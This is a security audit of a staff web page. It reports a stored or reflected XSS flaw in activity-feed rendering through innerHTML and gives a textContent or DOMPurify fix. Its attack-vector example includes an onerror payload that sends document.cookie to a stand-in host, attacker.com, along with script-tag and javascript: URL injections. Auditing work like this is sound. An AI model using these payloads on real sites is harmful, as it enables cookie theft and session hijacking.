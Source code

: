 # Security Audit: staff.html

**Date:** October 21, 2025  
**Status:** CRITICAL ISSUES FOUND  
**Severity:** HIGH

---

## 🚨 CRITICAL SECURITY ISSUES

### 1. **XSS Vulnerability - innerHTML with User-Controlled Data** 🔴 CRITICAL
**Location:** Lines 3377-3400 (Activity Feed Rendering)  
**Severity:** CRITICAL - Remote Code Execution Possible  
**Risk:** Stored/Reflected XSS

```javascript
feedEl.innerHTML = recentActivities.map(activity => {
  const avatarContent = (avatarsAllowed && activity.avatar)
    ? `<img src="${activity.avatar}" alt="" data-user-id="${activity.userId || ''}">`
    : activity.icon;
  return `
    <div class="activity-item ${activity.type}" data-user-id="${activity.userId || ''}">
      <div class="activity-avatar">${avatarContent}</div>
      ...
      <div class="activity-title">${activity.title}...</div>
      <div class="activity-detail">${activity.detail}</div>
      ...
    </div>
  `;
}).join('');
```

**Vulnerability:** 
- `activity.title` and `activity.detail` are inserted directly via template strings
- `activity.icon` is inserted as raw HTML (could contain `<script>` tags)
- `activity.avatar` URL not validated (could be javascript: protocol)
- No HTML escaping performed

**Attack Vector:**
```javascript
// Attacker could inject:
activity.title = '<img src=x onerror="fetch(attacker.com?cookie=' + document.cookie + ')">'
activity.detail = '<svg onload="alert(1)">'
activity.icon = '<script>alert("XSS")</script>'
activity.avatar = 'javascript:alert(1)'
```

**Impact:** Cookie theft, session hijacking, credential harvesting, malware distribution

**Fix:** Use `textContent` instead of `innerHTML` or sanitize with DOMPurify
```javascript
// SAFE Alternative:
const div = document.createElement('div');
div.className = `activity-item ${activity.type}`;
div.setAttribute('data-activity-type', activity.type);
div.innerHTML = `<div class="activity-avatar"></div>...`;
// Then use textContent for user data:
div.querySelector('.activity-title').textContent = activity.title;
div.querySelector('.activity-detail').textContent = activity.detail;
```

---